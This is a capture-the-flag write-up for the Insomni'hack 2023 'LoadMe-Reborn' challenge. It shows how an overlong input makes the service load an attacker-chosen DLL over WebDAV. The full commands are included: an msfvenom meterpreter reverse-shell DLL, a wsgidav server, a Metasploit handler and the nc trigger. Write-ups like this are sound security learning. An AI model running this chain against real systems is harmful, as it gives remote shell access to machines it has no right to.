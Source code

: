 # Insomni'hack - LoadMe-Reborn   
This repository is a solution for the flag LoadMe-Reborn for 2023's editions of insomni'hack.   
## The flag   
The flags begin with a simple instructions, that someone had developped an application to do a recipe with given components. They give us a nc command so we can connect to this app :
(I have forgot the command that they gave us, but it should be like this one)
```
nc 10.1.2.13 1234
```
Then, we have a beautiful cli's app that ask us for ingredients so they can cook, if you try to write some ingredients and hit enter, it'll tell us that the kitchen is closed. But it'll echo back the ingredients that we had typed before closing.
The simple trick here is to type list a ingredients so long that they will be an error. The important line in the error is that he has tried to load a DLL library but it was unable to load it, simply because it doesn'it exists ! It has tried to load a DLL with the end of the string that you had typed, so from here we can execute a DLL library of our choice, even our own !   
So we need to have a DLL that can do a reverse shell so we have acces directly to the server that is running the app. For that I have used msfvenom : 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=myIPAdress LPORT=4444 -f dll -o msf.DLL
```
And then we need a share that the server can use, the first thing that I had tried is smb share, but unfortunately, it has been blocked via a regex, so we need another technology, the next this I tried was webdav and it worked !
You need to host a webdav server, for that I have used wsgidav, it is a generic and extendable WebDAV server written in Python and based on WSGI. I have used this command, you need to launch it where you have generated your DLL library.
```
wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```
Before loading your library on the server, you need to prepare for the reverse shell with those command :
```
./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost your_ip_address
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```
And the you can launch your DLL on the server with this command : 
```
echo '(stringlongenoughtodotheerror)//youripadress@80/msf' | nc 10.1.2.13 1234
```
It'll launch the nc command and the enter the string between the '' after the echo. Now in the shell where you have executed the reverse shell command, you have to the server and get the flag who is in the .txt file !
## Sources
msfvenom : 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
* https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html

wsgidav :
* https://wsgidav.readthedocs.io/en/latest/
